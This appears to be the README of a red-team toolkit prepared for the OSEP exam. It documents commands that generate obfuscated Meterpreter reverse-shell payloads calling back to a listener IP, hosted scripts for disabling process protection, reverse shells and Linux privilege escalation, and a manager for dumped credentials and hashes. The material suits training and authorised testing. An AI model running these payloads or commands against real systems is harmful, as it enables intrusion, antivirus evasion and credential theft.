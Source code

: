 # osep-tools

## 3rd Party Library Version Info

* SharpHound [1.1.0](https://github.com/BloodHoundAD/SharpHound/commit/22e5985802c510ad9dc0864d2dd8b476d14248d1)
* CrackMapExec [5.2.1](https://github.com/byt3bl33d3r/CrackMapExec/commit/e9bcd09bd2c862200a40ecdc431fcf56f0ae5b67)

## msf api server

Create various format of shellcode with non-trivial transformer (xor, base64, caesar).

```
python3 shellcode_server.py -H localhost
```

![](images/screenshot-msfapiserv.png)

## AttackSuite

### Setup I

Something useful in red team auditing.
```
pip3 install -r requirements.txt
```

Put following command into `~/.zshrc`

```
alias a="$HOME/.local/bin/arsenal"
```

### Setup II

#### For ARM64 Kali

Tools to compile `CSharp EXE` & `linux elf`.

```
sudo apt install -y mono-complete gcc-11-x86-64-linux-gnu
```

#### For AMD64 Kali

Tools to compile `CSharp EXE`.

```
sudo apt install -y mono-complete
```


### Intro

Core Function, must accompany with `shellcode_server.py` now. Can integrate with other C2 framework such as Covenant.

```bash
python3 attackSuite.py -a win -b 64 -i 192.168.49.134 -p 80 -P 443 --payload meterpreter/reverse_https --chain xor-adwocdmwa-cae-11 --csc mcs -r 8888
```

```
usage: attackSuite.py [-h] [-a {win,nix}] [-b {32,64}] [-n {2,4}] -i IP -p PORT -P RPORT [-r REVPORT]
                      [-gP GPORT] [--payload PAYLOAD] [--inject INJECT] [--chome CHOME]
                      [--mhome MSF_WORKDIR] [--ps1 PS1] [--chain CHAIN] [--stageless] [--csc CSC]
                      [--gcc GCC]

Python Shellcode Runner

optional arguments:
  -h, --help            show this help message and exit
  -a {win,nix}, --os {win,nix}
                        Choose OS
  -b {32,64}, --bits {32,64}
                        Choose process bits
  -n {2,4}, --netclr {2,4}
                        Choose .NET CLR version
  -i IP, --ip IP        HTTP Listener IP
  -p PORT, --port PORT  HTTP Listener Port
  -P RPORT, --rport RPORT
                        msf Listener Port
  -r REVPORT, --revport REVPORT
                        NC Listener Port
  -gP GPORT, --gport GPORT
                        grunt Listener Port
  --payload PAYLOAD     meterpreter payload used
  --inject INJECT       target process to inject
  --chome CHOME         Covenant home directory
  --mhome MSF_WORKDIR   Metasploit Custom Meterpreter Scripts directory.
  --ps1 PS1             path to custom powershell script
  --chain CHAIN         payload transform expression, separated by "-" Ex. xor-ii1e12e1 => xor($buf,
                        'ii1e12e1') xor-eegg-cae-10 => cae(xor($buf, 'eegg'), 10)
  --stageless           create stageless payload (no interact with this http server)
  --csc CSC             C# compiler command
  --gcc GCC             GNU compiler command
```

![](images/screenshot-attackSuite.png)

### pre-defined scripts with fixed name

`http://<IP>:<PORT>/<name>`

| name | Function |
| ------ | ------ |
| /pk.ps1    | Invoke-KillPPL            |
| /flm.ps1   | Invoke-FLM                |
| /go.ps1    | met(x64) installutil      |
| /gm.ps1    | met(x64) msbuild          |
| /rev.ps1   | reverse flm shell         |
| /svc.ps1   | met(?) in service binary  |
| /svc_.ps1  | Invoke-ServicePwn         |
| /msi       | Write-MSI                 |
| /llpe      | linux LPE (cve-2021-4034) |
| /wlpc      | Invoke-WinPeas            |

### arsenal integration

```
alias a="arsenal"
cheatsheet output: $HOME/.cheats/osep_hunter.md    ( Only exist when attackSuite is runing )
```

![](images/screenshot-attackSuite-arsenal.png)
                                        
## centre credential/host/record manager
                                        
Post-Exploitation Enumeration Tool designed for OSEP EXAM
                                        
### Setup

```
pip3 install -r requirements-centre.txt
```

Put following command into `~/.zshrc`.

```
alias centre.py="/path/to/centre.py"
```

You can type `centre.py` everywhere, creating `credential/host/record` in current working directory.

### Intro

```
usage: centre.py [-h] [--cme] [--rdp] [--import-lsa _LSA] [--import-ntds _NTDS] [--import-mini _MINIDUMP] [--import-nmap _NMAPXML] [-t ITARGET_IP]
                 [-T ITARGET_NAME] [--reset] [--debug] [--noproxy]

optional arguments:
  -h, --help            show this help message and exit
  --cme
  --rdp
  --import-lsa _LSA
  --import-ntds _NTDS
  --import-mini _MINIDUMP
  --import-nmap _NMAPXML
  -t ITARGET_IP, --itarget-ip ITARGET_IP
                        must be IPv4 format
  -T ITARGET_NAME, --itarget-name ITARGET_NAME
  --reset
  --debug
  --noproxy
```

execution result
```
+----+---------------+--------+----------------------------------+------------+
|    | User          | Pass   | NTLM                             | Domain     |
|----+---------------+--------+----------------------------------+------------|
|  0 | sqlsvc        |        | ******************************** | ******.*** |
+----+---------------+--------+----------------------------------+------------+
+----+----------------+----------+--------------------+
|    | IP             | HOST     | Ports              |
|----+----------------+----------+--------------------|
|  0 | 172.16.***.*** | dc04     | 5985 3389 445      |
|  1 | 172.16.***.*** | sql05    | 1433 445 5985 3389 |
|  2 | 172.16.***.*** | sql07    | 1433 445 5985 3389 |
|  3 | 172.16.***.*** | client09 | 3389 445           |
+----+----------------+----------+--------------------+

==== RCE machines ====
+----+----------------+---------------+--------+----------------------------------+------------+------------+----------+
|    | IP             | User          | Pass   | NTLM                             | Domain     | Protocol   |   Status |
|----+----------------+---------------+--------+----------------------------------+------------+------------+----------|
|  0 | 172.16.***.*** | sqlsvc        |        | ******************************** | ******.*** | cme-mssql  |        1 |
+----+----------------+---------------+--------+----------------------------------+------------+------------+----------+
======================
```
